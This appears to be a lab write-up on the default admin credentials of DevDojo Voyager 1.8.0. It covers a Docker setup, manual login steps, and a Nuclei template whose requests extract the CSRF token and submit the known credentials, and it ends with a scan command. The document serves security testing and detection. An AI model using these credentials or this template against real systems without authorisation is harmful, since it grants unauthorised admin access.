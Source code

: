 # DevDojo Voyager Default Login

## Description:
DevDojo Voyager contains default credentials when run with dummy data. An attacker can obtain access to user accounts and access sensitive information, modify data, and/or execute unauthorized operations.

## Reference:
- https://voyager-docs.devdojo.com/getting-started/installation

## Vulnerable Setup

- Execute the following commands to start a Laravel Voyager 1.8.0 server:

```bash
docker compose up -d
```

- After the server is started, browse to http://your-ip:8000 to see the Laravel Voyager admin panel. This server requires authentication.

## Default Login   

Username: admin@admin.com

Password: password

## Exploitation Steps

- Navigate to your URL http://your-ip:8000/admin

- Enter the Default Credentials (admin@admin.com/password) as shown below.

![image](https://github.com/user-attachments/assets/7935b0f8-1966-44c9-9d35-21a8aac72e41)

- You will be Successfully Logged in with Admin Privilege.

![image](https://github.com/user-attachments/assets/36f2829d-080d-48c0-991d-03ac5d00347b)

## Steps to Write Nuclei Template

**Variables Section**

```yaml
variables:
  username: "admin@admin.com"
  password: "password"
```

- Defines the login credentials (username and password) as variables, which can be reused in requests.

**First Request: Retrieve CSRF Token**

```yaml
  - raw:
      - |
        GET /admin/login HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        part: body
        internal: true
        name: csrf
        group: 1
        regex:
          - 'name="_token" value="([a-zA-Z0-9]+)"'
```

- Sends a GET request to /admin/login to retrieve the login page.
- Extracts the CSRF token (_token) from the response body using a regular expression.
- Stores the extracted value in an internal variable named csrf for later use.

**Second Request: Perform Login**

```yaml
  - raw:
      - |
        POST /admin/login HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        _token={{csrf}}&email={{username}}&password={{password}}&

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'/admin</title>')"
          - "status_code == 302"
        condition: and
        internal: true
```

- Sends a POST request to `/admin/login` with:
  - Extracted `_token`
  - Username and password from the variables

- The matchers validate a successful login by checking:
  - The response body contains `</admin</title>` (indicating admin page access).
  - The response has a `302` status code, indicating a successful login and redirection.

## Nuclei Template URL : [devdojo-voyager-default-login](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/default-logins/devdojo/devdojo-voyager-default-login.yaml)

## Nuclei Command :

```bash
nuclei -t devdojo-voyager-default-login.yaml -u http://172.30.0.2:8000 -vv
```

![image](https://github.com/user-attachments/assets/7c37d141-5481-4c25-ae0b-3ea73b3a5d3a)
